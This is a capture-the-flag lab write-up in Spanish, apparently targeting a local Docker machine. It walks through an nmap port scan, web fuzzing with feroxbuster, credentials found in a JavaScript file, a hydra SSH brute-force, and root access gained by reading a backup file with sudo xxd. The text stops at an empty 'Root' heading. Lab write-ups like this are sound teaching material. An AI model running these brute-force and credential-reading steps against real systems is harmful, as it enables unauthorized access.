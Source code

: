 ## Enumeracion de Puertos, Servicios y Versiones

```ruby
nmap -Pn -n -sS -p- --open -sCV --min-rate 5000 172.17.0.2 -oN nmap

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-16 10:16 -03
Nmap scan report for 172.17.0.2
Host is up (0.0000080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 4d:ea:92:ba:53:e3:b8:dc:71:95:50:19:87:6b:b2:6d (ECDSA)
|_  256 fa:77:68:76:dc:8e:b1:cd:56:5f:c1:79:89:ad:fa:78 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: \xC2\xBFQu\xC3\xA9 son las DevTools del Navegador?
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.22 seconds
```
Puerto 22 y 80 levantados, asi que comienzo chequeando el servicio web

![image](https://github.com/user-attachments/assets/7cf992c0-9d1f-4506-9249-99927cab8a9d)

Solicita credenciales para continuar, asi que aplico fuzzing web 

```ruby
feroxbuster -u 'http://172.17.0.2' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x txt,php,bak,db,py,html,js,jpg,png,git,sh -t 200 --random-agent --no-state -d 10
```

```ruby
                                                                                                                                                                          
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://172.17.0.2
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ Random
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, php, bak, db, py, html, js, jpg, png, git, sh]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 10
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      272c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       78l      398w    42336c http://172.17.0.2/4.png
200      GET       22l       72w      765c http://172.17.0.2/backupp.js
200      GET      137l      709w    81631c http://172.17.0.2/3.png
200      GET       77l      401w    45307c http://172.17.0.2/2.png
200      GET      107l      508w    62608c http://172.17.0.2/1.png
200      GET      134l      442w     4548c http://172.17.0.2/
[##>-----------------] - 24s   333209/2491608 3m      found:6       errors:59727  
[######>-------------] - 24s   782712/2491548 32749/s http://172.17.0.2/
```

observo un script .js asi que lo reviso y consigo credenciales

![image](https://github.com/user-attachments/assets/a1e6f13c-97af-4cb6-ac8b-3e6f37ff29e1)

ahora si podria continuar en la web principal

![image](https://github.com/user-attachments/assets/a45b5eda-68e2-4917-b07e-7f0e1271995c)

mas alla de un breve tutorial acerca de `DevTools` no hay mas nada de interes, pero si detallamos el script .js vemos una password antigua, pero al probarla 
con lo que podria ser el user `chocolate` via ssh no son credenciales validas, asi que aplico un ataque de fuerza bruta con hydra al servicio `ssh`


```ruby
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p baluleroh ssh://172.17.0.2
```

![image](https://github.com/user-attachments/assets/c9cb7eeb-588f-4c37-9af3-8a517bc2744a)

obtenemos credenciales para el servicio `ssh`

```ruby
ssh carlos@172.17.0.2
```
![image](https://github.com/user-attachments/assets/ee367390-6436-410c-897a-2f2890870cef)

### Escalada de Privilegios

### carlos

No existen mas usuarios en el sistema, pero vemos que es posible ejecutar el binario `xxd` y `ping` como `root`

![image](https://github.com/user-attachments/assets/2af15905-50ba-4818-bfea-0631f71afa4f)

y tambien observamos una nota que habla de un Backup en el directorio de `root` asi que podria leerlo con el binario `xxd`

```ruby
sudo /usr/bin/xxd /root/data.bak

00000000: 726f 6f74 3a62 616c 756c 6572 6974 6f0a  root:balulerito.
```

obtenemos credenciales para `root` asi que escalamos

![image](https://github.com/user-attachments/assets/39ac37a0-e51a-485e-b620-2b9219b3929a)

### Root


















